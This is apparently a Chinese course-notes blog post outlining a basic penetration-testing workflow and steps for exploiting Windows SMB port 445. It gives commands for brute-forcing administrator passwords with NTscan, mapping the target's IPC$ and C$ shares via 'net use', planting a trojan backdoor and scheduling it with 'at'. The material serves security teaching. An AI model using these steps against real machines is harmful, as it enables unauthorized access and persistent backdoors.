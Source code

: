 ```yaml
---
layout:     post
title:     day_09
subtitle:  渗透测试简单流程、445端口的利用
date:       2020-5-2
author:     One-Punch-Man
header-img: "img/man-6.jpg"
catalog: true
tags: 
     - 网络安全
     - 千锋教育
---
```


# 渗透测试的简单流程

1. 授权
2. 信息收集
   - nslookup
   - whois
3. 扫描漏洞
   - namp
4. 漏洞利用
5. 获取权限
6. 渗透测试报告

# 445端口的利用

1. 扫描端口的开放；
   - `telnet IP地址 端口`：手工测试端口是否开放。
   - 使用扫描软件`scanport`、`namp`。
2. 使用`NTscan`软件暴力破解账户和密码；
3. 建立磁盘映射；
   - `net use \\IP地址\ipc$ 密码 /user:administrator`：与目标空连接进行磁盘映射，可以对对方所有的磁盘进行操作。
   - `net use f: \\IP地址\c$ 密码 /user:administrator`：使用`f盘`作为目标`C盘`的映射地址。
   - `net use * /del`:删除所有的磁盘映射。
4. 制作木马
5. 植入木马（留后门）
6. 设计任务计划
   1. `net time \\IP地址`
   2. `at \\IP地址 时间 "路径"`